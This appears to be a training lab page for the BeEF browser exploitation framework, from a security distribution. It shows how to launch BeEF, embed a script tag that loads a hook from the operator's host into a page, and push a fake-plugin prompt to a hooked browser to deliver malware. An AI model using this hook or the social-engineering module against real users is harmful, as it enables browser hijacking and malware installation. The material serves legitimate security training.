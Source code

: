 
BeEF
============

Website
-------

<https://beefproject.com>

Description
-----------

BeEF, The Browser Exploitation Framework Project is a tool for the pwnage of one of the
underexplored frontiers in information security, the web browser.

Install Location
----------------

`/opt/beef`

Usage
-----

BeEF uses javascript to "hook" one or more browsers before attempting to leverage its access for
further exploitation.

Video Walkthrough
-----------------

<iframe src="https://onedrive.live.com/embed?cid=8D6C4317A39E3D29&resid=8D6C4317A39E3D29%2155680&authkey=ABFf2c6CSDAMzFQ" width="320" height="180" frameborder="0" scrolling="no" allowfullscreen sandbox="allow-scripts allow-pointer-lock allow-forms allow-same-origin"></iframe>

Example 1: Hooking a Web Browser
--------------------------------

First change into the BeEF install directory:

`~$` **`cd /opt/beef`**

Next launch BeEF like so:

`/opt/beef$` **`sudo ./beef`**

        [14:00:53][*] Bind socket [imapeudora1] listening on [0.0.0.0:2000].
        [14:00:53][*] Browser Exploitation Framework (BeEF) 0.4.4.9-alpha
        [14:00:53]    |   Twit: @beefproject
        [14:00:53]    |   Site: http://beefproject.com
        [14:00:53]    |   Blog: http://blog.beefproject.com
        [14:00:53]    |_  Wiki: https://github.com/beefproject/beef/wiki
        [14:00:53][*] Project Creator: Wade Alcorn (@WadeAlcorn)
        [14:00:54][*] BeEF is loading. Wait a few seconds...
        [14:01:14][*] 10 extensions enabled.
        [14:01:14][*] 191 modules enabled.
        [14:01:14][*] 2 network interfaces were detected.
        [14:01:14][+] running on network interface: 127.0.0.1
        [14:01:14]    |   Hook URL: http://127.0.0.1:3000/hook.js
        [14:01:14]    |_  UI URL:   http://127.0.0.1:3000/ui/panel
        [14:01:14][+] running on network interface: 192.168.1.109
        [14:01:14]    |   Hook URL: http://192.168.1.109:3000/hook.js
        [14:01:14]    |_  UI URL:   http://192.168.1.109:3000/ui/panel
        [14:01:14][*] RESTful API key: 4bfb70558017e0a2362021864acd445f0d51882d
        [14:01:14][*] HTTP Proxy: http://127.0.0.1:6789
        [14:01:14][*] BeEF server started (press control+c to stop)

Now that we have BeEF listening for connections let's embed the javascript hook in a page and get
our target to browse to it.

All you need to do to embed the javascript hook on any page is to insert a single line of html
like this:

`<script src='http://192.168.1.109:3000/hook.js'></script>`

So if you have an html page that you would like to embed into, feel free.

However, we have already created a page which performs dynamic embedding of the BeEF hook.


This page is located at: /var/www/adhd/beef/hook.php



Open up a new Firefox instance by either running this command:

`~$` **`firefox & `**

Or by navigating `Launch Menu > Internet > Firefox Web Browser`

![](Beef_files/Image_001.png)

Once you have Firefox running let's visit the target page and get our browser hooked.

Load up [http://127.0.0.1/beef/hook.php](http://127.0.0.1/beef/hook.php)

![](Beef_files/Image_002.png)

You shouldn't see anything more than a default, blank, boring page.

Now open up a new tab and navigate to the BeEF UI.  This can be accomplished by either
directly accessing the url [http://127.0.0.1:3000/ui/panel](http://127.0.0.1:3000/ui/panel)
or by visiting [http://127.0.0.1](http://127.0.0.1) and clicking the link **BeEF (Console)**.

![](Beef_files/Image_003.PNG)

Authenticate:

    Username:    adhdbeef
    Password:    adhdbeef

After authentication you should be able to see your hooked browser on the left hand side
under "Online Browsers"

![](Beef_files/Image_004.PNG)

And that's it, you have successfully hooked a web browser.

The browser will remain hooked as long as the tab it has open to your page remains as such.

To see some example of what we can do with a hooked browser, continue on to
[Example 2: Browser Based Exploitation With BeEF].

Example 2: Browser Based Exploitation With BeEF
-----------------------------------------------

Assuming you already have a hooked web browser, let's take a look at some things you can do with it.

Open the BeEF console by either navigating directly to [http://127.0.0.1/ui/panel](http://127.0.0.1/ui/panel)
or visiting [http://127.0.0.1](http://127.0.0.1) and clicking the link **BeEF (Console)**.

![](Beef_files/Image_004.PNG)

To get started click on your hooked web browser.  This should bring up details about your selected
browser in the multi-tabbed menu on the right of the console.

![](Beef_files/Image_005.PNG)

These details can help you tailor attacks to your victim's browser.

Let's run a few commands.  Select the commands tab.

![](Beef_files/Image_006.PNG)

Now expand the module tree

Select `Social Engineering > Fake Notification Bar (Firefox)`

![](Beef_files/Image_007.png)

This should open up a menu on the right.  Leave all the options default and click `Execute`

![](Beef_files/Image_008.PNG)

After a few seconds, the hooked browser should see something similar to this.

![](Beef_files/Image_009.png)

If they install the plugin, they are pwned.
It should be noted that this method can be used to deliver anything, not just the default
"malicious plugin."  This could easily be leverage to install fully fledged malware on the system,
simply by updating the module options before execution.

There are tons of other modules available in BeEF, don't stop here. Get exploring.


